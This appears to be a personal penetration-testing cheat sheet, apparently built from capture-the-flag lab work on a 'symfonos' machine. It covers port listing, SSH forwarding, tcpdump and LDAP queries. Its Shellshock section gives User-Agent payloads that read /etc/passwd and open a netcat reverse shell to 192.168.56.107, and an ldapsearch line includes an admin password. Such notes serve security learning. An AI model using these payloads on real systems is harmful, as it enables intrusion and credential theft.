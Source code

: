 #### Check for listening ports on the machine
```
	netstat -tulpn
	ss -tulpn

	for ssh port forwarding, 2 nethods are there

		- ssh -L [local-port]:[hosted-remote-ip]:[hosted-remote-port] [remote-user]@[remote-host]
	OR
		- if logged into SSH
			press ENTER   ~   C
		- SSH prompt opens
		- give in the command]
			-L [local-port]:[hosted-remote-ip]:[hosted-remote-port]
		- press enter, port is forwarded, use firefox or any unproxied browser

```

### Shellshock vulnerability
```
inject the following payload into the user agent part of the page and use netcat to get shell


		() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'

		 () { :; }; echo; echo; /bin/bash -c '/bin/nc -e /bin/bash 192.168.56.107 4321'


```

### User specific files
```
	find / -user hades 2>/dev/null

```

### To sniff traffic off port
```
	tcpdump -v -i [interface] port [port-no]

```

### LDAP injection through LDAP poisoning
```
	Credentials for login can be * and *

```

### to connect to LDAP via credentials
```
	ldapsearch -x -h symfonos -D "CN=admin,DC=symfonos,DC=local" -w qMDdyZh3cT6eeAWD -b "DC=symfonos,DC=local"

```
